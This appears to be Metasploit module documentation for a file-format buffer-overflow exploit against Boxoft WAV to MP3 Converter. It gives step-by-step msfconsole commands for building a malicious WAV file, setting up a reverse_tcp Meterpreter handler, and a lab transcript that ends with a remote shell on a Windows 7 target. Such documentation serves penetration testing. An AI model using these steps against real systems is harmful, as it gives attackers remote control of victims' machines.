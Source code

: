 
## Vulnerable Application

  This module exploits a stack-based buffer overflow in Boxoft WAV to MP3 Converter v1.0-v1.1. 

## Verification Steps

   1.  Install application on the target machine
   2.  Start msfconsole
   3.  Do: `use [exploit/multi/handler]`
   4.  Do: `set payload [windows/meterpreter/reverse_tcp]`
   5.  Do: `set LHOST [IP]`
   6.  Do: `run`
   7.  Do: `use [exploit/windows/fileformat/boxoft_wav_to_mp3]`
   8.  Do: `set payload [windows/meterpreter/reverse_tcp]`
   9.  Do: `set LHOST [IP]`
   10. Do: `run`
   11. Copy the generated file to the target machine
   12. Open Boxoft WAV to MP3 Converter
   13. Select `Next` at the bottom
   14. Select `Add`
   15. Browse to the file and select it
   16. Click `Convert to MP3`

   You should get a shell.

## Options

### FILENAME

  The filename that the shellcode gets written to. Setting a filename is not required, as there is a default name already set.

## Scenarios

### Tested on Windows 7 x86


  Run Exploit 

  ```
  msf > use exploit/windows/fileformat/boxoft_wav_to_mp3 
  msf exploit(windows/fileformat/boxoft_wav_to_mp3) > set payload windows/meterpreter/reverse_tcp
  payload => windows/meterpreter/reverse_tcp
  msf exploit(windows/fileformat/boxoft_wav_to_mp3) > set lhost 192.168.37.1
  lhost => 192.168.37.1
  msf exploit(windows/fileformat/boxoft_wav_to_mp3) > run

  [+] music.wav stored at /Users/space/.msf4/local/music.wav

  ```
  Set up Handler

  ```
  msf > use exploit/multi/handler
  msf exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
  payload => windows/meterpreter/reverse_tcp
  msf exploit(multi/handler) > set lhost 192.168.37.1
  lhost => 192.168.37.1
  msf exploit(multi/handler) > run

  [*] Started reverse TCP handler on 192.168.37.1:4444 
  [*] Sending stage (179779 bytes) to 192.168.37.138
  [*] Meterpreter session 1 opened (192.168.37.1:4444 -> 192.168.37.138:49178) at 2018-06-29 14:41:11 -0500

  meterpreter > sysinfo
  Computer        : WIN7-LAB
  OS              : Windows 7 (Build 7601, Service Pack 1).
  Architecture    : x86
  System Language : en_US
  Domain          : WORKGROUP
  Logged On Users : 2
  Meterpreter     : x86/windows

  ```
